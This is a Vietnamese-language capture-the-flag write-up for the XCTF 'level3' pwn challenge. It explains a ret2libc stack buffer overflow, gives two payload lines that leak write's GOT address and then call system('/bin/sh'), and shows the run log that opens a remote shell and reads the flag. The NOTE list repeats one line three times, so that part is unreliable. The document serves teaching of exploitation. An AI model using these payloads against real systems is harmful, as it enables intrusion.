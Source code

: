 # XCTF - PWN Exercise - level3

```c
#include<stdio.h>

ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

Kiếm tra các flag secure trước.

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ checksec level3   
[*] '/home/l1j9m4/0_PWNable/ADworld_XCTF/Exersice/5_level3/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Chương trình rất đơn giản, biến `buf` có 136 kí tự nhưng hàm `read` cho phép đọc 256 kí tự input và chương trình cũng không có flag secure `Canary` => có thể stack buffer overflow để lấy shell tương tác trên server. Chúng ta sẽ dùng phương pháp `ret2libc` vì không có functions nào của chương trình cho phép có shell hay là đọc flag trên server.

Những bài sử dụng kỹ thuật `ret2libc` thường sẽ leak địa chỉ của libc bằng hàm `write` hoặc hàm `puts` rồi sau đó tính toán `offset` và địa chỉ của các hàm liên quan đến lấy shell tương tác như: `địa chỉ cơ sở của libc`, `system`, chuỗi `"/bin/sh"`,... do địa chỉ tương đối giữa các hàm trong libc là cố định (khoảng cách giữa các hàm).

Để lấy địa chỉ của hàm `system` của bài này, ta có thể sử dụng hàm `write()` để thực hiện tính toán offset. 

   1. Đầu tiên sử dụng hàm write() để tính địa chỉ thực của hàm `write()` được chương trình lưu trong `GOT` (kiến thức liên quan đến liên kết động thư viện libc của file ELF). 
   
   2. Sử dụng khoảng cách tương đối giữa các hàm để tính địa chỉ thực của `system` và `"/bin/sh"`.

=> Đối với cuộc tấn công đầu tiên, chúng ta sử dụng tràn ngăn xếp để làm rò rỉ địa chỉ thực của hàm write() trong bảng GOT, sau đó trừ đi phần bù trong libc để lấy địa chỉ cơ sở của libc. 

```
payload1 = 'A' * 0x88 + p32 (0xdeadbeef) + p32 (write_plt) + p32 (main_addr) + p32 (1) + p32 (write_got) + p32 (0xdeadbeef)
```

=> Cuộc tấn công thứ hai sẽ quay lại functions `main`, vượt qua tràn ngăn xếp một lần nữa và sử dụng chức năng `system` tính toán được để `get shell` :p.

```
payload2 = 'A' * 0x88 + p32 (0xdeadbeef) + p32 (sys_addr) + p32 (0xdeadbeef) + p32 (bin_sh_addr)
```

Việc tính toán một số địa chỉ liên quan qua địa chỉ của hàm `write` leak được. Địa chỉ được tính như sau:

|   Địa chỉ các hàm   |          Tính toán                                                     |
|   :-------------:   | :--------------------------------------------------------------------: |
|      libc_addr      | (địa chỉ write lưu tại GOT của write) - (offset của write so với libc) |
|     system_addr     | libc_addr + (offset của system so với libc)                            |
|     bin_sh_addr     | libc_addr + (offset của chuỗi "/bin/sh" so với libc)                   |

###NOTE:
      
      +) (địa chỉ write lưu tại GOT của write) - leak được.
      
      +) (offset của write so với libc) - tính toán thông qua libc được đề cho.
      
      +) (offset của write so với libc) - tính toán thông qua libc được đề cho.
      
      +) (offset của write so với libc) - tính toán thông qua libc được đề cho.
      
Phần này mình sẽ trình bày câu lệnh bằng comment code trong file `exploit.py`.

Tiến hành viết file [exploit.py](exploit.py) và khai thác:

```
l1j9m4 in ~/0_PWNable/ADworld_XCTF/Exersice/5_level3 λ python2 exploit.py
[+] Opening connection to 111.200.241.244 on port 51341: Done
('Write_got address is', '0xf76e13c0')
('libc address is', '0xf760d000')
('system address is', '0xf7647940')
('/bin/sh address is', '0xf776602b')
[*] Switching to interactive mode
Input:
$ ls
bin
dev
flag
level3
lib
lib32
lib64
$ cat flag
cyberpeace{30760e28dd5d22b93e22a2d89a7113b9}
$  
```
